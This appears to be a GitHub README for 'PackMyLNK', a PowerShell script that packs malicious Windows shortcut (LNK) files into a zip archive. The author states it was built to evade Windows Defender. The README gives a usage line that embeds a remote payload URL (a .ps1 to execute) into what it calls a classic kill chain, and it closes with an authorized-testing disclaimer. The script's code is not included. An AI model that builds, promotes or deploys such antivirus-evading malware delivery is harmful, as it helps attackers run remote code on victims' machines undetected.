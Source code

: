 # PackMyLNK
A simple Zip packer to bypass Windows Defender for malicious LNK files

This script takes a URL as input and embeds it into a classic kill chain using LNK files. I developed it with the explicit purpose of evading detection by Windows Defender.

## Usage
`.\PackMyLNK.ps1 -Url http://example.com/payload-to-execute.ps1`

___

#### DISCLAIMER: This tool is intended for testing and educational purposes only. It should only be used on systems with proper authorization. Any unauthorized or illegal use of this tool is strictly prohibited. The creator of this tool holds no responsibility for any misuse or damage caused by its usage.
